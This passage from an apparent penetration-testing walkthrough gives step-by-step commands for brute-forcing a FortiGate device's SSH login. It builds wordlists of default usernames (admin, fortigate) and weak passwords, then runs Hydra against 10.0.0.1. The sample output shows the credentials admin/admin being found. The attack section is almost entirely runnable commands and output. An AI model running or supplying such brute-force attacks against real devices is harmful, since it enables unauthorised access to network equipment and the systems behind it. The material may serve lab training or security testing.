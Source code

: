 ```bash
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-02-25T22:28:01
| Not valid after:  2027-05-31T22:28:01
| MD5:   1757:d25d:ec8e:5eae:92ef:1b01:91a6:9fb1
|_SHA-1: 9246:9b61:fbab:1a64:aeac:da55:7ebf:277f:05e5:65ec
<SNIP>
```

Create a usernames text file containing default usernames for FortiGate. Create a passwords text file containing passwords.

```bash
nano usernames.txt
```

```bash
admin
administrator
adm
fortigate
```

```bash
nano passwords.txt
```

```bash
P@ssw0rd
password
password123
qwerty
admin
```

Using the usernames and passwords text file, run Hydra to perform a brute-force attack on FortiGate's SSH service.

```bash
hydra -L usernames.txt -P passwords.txt ssh://10.0.0.1 
```

```bash
#Example output
└─$ hydra -L usernames.txt -P passwords.txt ssh://10.0.0.1 

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-27 14:25:56
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:4/p:6), ~2 tries per task
[DATA] attacking ssh://10.0.0.1:22/
[22][ssh] host: 10.0.0.1   login: admin   password: admin
[ERROR] ssh target does not support password auth
[ERROR] ssh target does not support password auth
[ERROR] ssh target does not support password auth
[ERROR] ssh target does not support password auth
[ERROR] ssh target does not support password auth
[ERROR] ssh target does not support password auth
[ERROR] ssh target does not support password auth
[ERROR] ssh target does not support password auth
[ERROR] ssh target does not support password auth
[ERROR] ssh target does not support password auth
[ERROR] all children were disabled due too many connection errors
0 of 1 target successfully completed, 1 valid password found
```